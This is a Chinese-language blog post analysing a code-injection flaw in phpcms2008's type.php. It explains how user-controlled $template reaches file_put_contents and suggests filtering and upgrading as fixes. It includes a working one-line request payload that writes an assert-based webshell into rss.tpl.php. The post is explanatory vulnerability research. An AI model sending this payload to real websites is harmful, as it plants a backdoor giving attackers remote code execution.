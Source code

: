 ```yaml
---
title: "Phpcms2008 Type.php Getshell"
date: 2018-12-16T19:21:52+08:00
categories: ['Vulnerability']
tags: ['getshell','php','Vulnerability']
---
```


phpcms2008老版本`type.php`存在代码注入可直接getshell。不过版本过低，使用人数较少，影响范围较小，当作拓展思路不错。

<!--more-->

## 漏洞简介

当攻击者向装有phpcms2008版本程序的网站发送如下payload时

```php
/type.php?template=tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss
```

那么`@unlink(_FILE_);assert($_POST[1]);`这句话会被写入`rss.tpl.php`，即getshell。

## 漏洞分析

![type.php](https://y4er.com/img/uploads/20190509166393.jpg "type.php")

在`type.php`中`$template`用户可控，并且下方传入了`template()`函数，这个函数是在`/include/global.func.php`定义的，跟进下

![global.func.php](https://y4er.com/img/uploads/20190509165373.jpg "global.func.php")

可以看到执行了`template_compile()`函数，继续跟进，这个函数在`/include/template.func.php`中

![template.func.php](https://y4er.com/img/uploads/20190509166561.jpg "template.func.php")

在这个方法中，`$template`变量同时被用于`$compiledtplfile`中文件路径的生成，和`$content`中文件内容的生成。

而前文所述的攻击payload将`$template`变量被设置为如下的值

```php
tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss
```

所以在`template_compile()`方法中，调用`file_put_contents()`函数时的第一个参数就被写成了`data/cache_template/phpcms_tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss.tpl.php`，这将被php解析成`data/cache_template/rss.tpl.php`。

最终，`@unlink(_FILE_);assert($_POST[1]);`将被写入该文件。

## 修复建议

手动过滤`$template`参数，避免输入`{` `(`这类字符被当作路径和脚本内容处理。

升级才是正道，那么老的版本了还有人在用，是有多懒。

## 参考链接

https://xz.aliyun.com/t/3454

